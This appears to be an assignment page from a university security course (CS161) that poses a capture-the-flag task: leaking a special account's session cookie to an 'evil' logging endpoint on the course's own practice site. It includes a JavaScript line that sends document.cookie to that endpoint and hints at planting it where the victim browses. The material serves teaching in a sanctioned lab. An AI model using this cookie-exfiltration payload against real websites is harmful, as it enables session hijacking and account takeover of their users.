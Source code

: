 ```yaml
---
title: 'Flag 5: cs161'
nav_order: 50
---
```


# Leak `cs161`'s session cookie

_Difficulty:_ Medium

Because it is a special-purpose account, you won't find `cs161`'s session token
in the database. However, `cs161` still sends a `session_token` cookie to the
server with every request, so you might be able to leak `cs161`'s token using a
different attack.

Your CS161 alumni ally has inserted some evil malware that lets you log
arbitrary values to an internal dashboard. When you send a HTTP GET Request to
the `/evil/report` endpoint and include a `message` parameter, the `message` is
posted to the `/evil/logs` page. Try it by visiting the following URL in your
browser!

```
https://proj3.cs161.org/evil/report?message=hello1234
```

**Your task:** Leak `cs161`'s session cookie by pushing it onto the `/evil/logs`
page.

_Tip:_ You may want to try this attack on yourself before executing it on
another user.

_Tip:_ You may find this block of JavaScript code useful:

```
fetch('/evil/report?message='+document.cookie)
```

_Tip:_ You may assume the cs161 user will be browsing the main pages of the
site in the background (e.g. home, list, upload, etc.).
